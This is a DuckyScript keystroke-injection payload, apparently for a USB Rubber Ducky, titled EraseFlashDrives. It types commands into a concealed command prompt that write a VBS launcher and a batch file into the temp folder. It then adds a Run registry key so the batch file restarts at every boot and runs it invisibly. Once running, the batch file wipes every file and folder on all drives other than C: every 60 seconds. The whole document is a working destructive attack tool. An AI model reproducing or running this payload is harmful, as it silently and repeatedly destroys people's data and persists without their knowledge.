 REM By overwraith
REM EraseFlashDrives.txt
REM PURPOSE: to delete the contents of attached drives. 
CONTROL ESCAPE
STRING cmd /Q /D /T:7F /F:OFF /V:OFF /K
DELAY 500
ENTER
DELAY 750
ALT SPACE
STRING M
DOWNARROW
REPEAT 100
ENTER
REM THE DIRECTORY YOU WANT TO HIDE THE SCRIPT IN
STRING cd %TEMP%
ENTER
REM MAKE THE VBS FILE THAT ALLOWS RUNNING INVISIBLY.
REM Delete vbs file if already exists
STRING erase /Q invis.vbs
ENTER
REM FROM: http://stackoverflow.com/questions/289498/running-batch-file-in-background-when-windows-boots-up
STRING copy con invis.vbs
ENTER
STRING CreateObject("Wscript.Shell").Run """" & WScript.Arguments(0) & """", 0, False
ENTER
CONTROL Z
ENTER
REM Delete batch file if already exists
STRING erase /Q SecurityBullseye.bat
ENTER
REM Make the batch file
REM SLIGHT THROWBACK TO VIDEO GAME BIOSHOCK I/II
STRING copy con SecurityBullseye.bat
ENTER
REM REGISTRY KEY RESTARTS THE SCRIPT ON REBOOT
STRING REG ADD HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v Persistence /t REG_SZ /d "wscript.exe %TEMP%\invis.vbs %TEMP%\SecurityBullseye.bat" /f
ENTER
STRING :while1
ENTER
REM C:\ IS USUALLY THE DRIVE THE OS IS INSTALLED ON, SO OMIT. 
STRING for %%a in (A B D E F G H I J K L M N O P Q R S T U V W X Y Z) do (
ENTER
STRING IF EXIST %%a:\ erase /Q /S /F "%%a:\*.*"
ENTER
STRING IF EXIST %%a:\ rmdir /Q /S "%%a:\*"
ENTER
STRING )
ENTER
STRING timeout /t 60
ENTER
STRING goto :while1
ENTER
CONTROL Z
ENTER
REM RUN THE BATCH FILE
STRING wscript.exe invis.vbs SecurityBullseye.bat
ENTER
STRING EXIT
ENTER